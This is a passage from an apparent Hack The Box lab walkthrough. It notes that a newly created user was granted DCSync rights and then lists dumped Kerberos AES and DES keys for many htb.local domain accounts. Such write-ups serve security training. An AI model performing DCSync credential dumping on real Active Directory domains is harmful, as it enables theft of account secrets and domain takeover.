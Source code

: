 ```DCSync Privilege``` is added to our new user, we can easily dump all hashes using ```DCSync Attack```
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
aidenpearce369:aes256-cts-hmac-sha1-96:f7eafd55f28a0041db1cec4dfa3c620749c4ebf92a5da4edc49ada8a89b9fed1
aidenpearce369:aes128-cts-hmac-sha1-96:161f1c6ca692ea2a4e06779933a50770
```
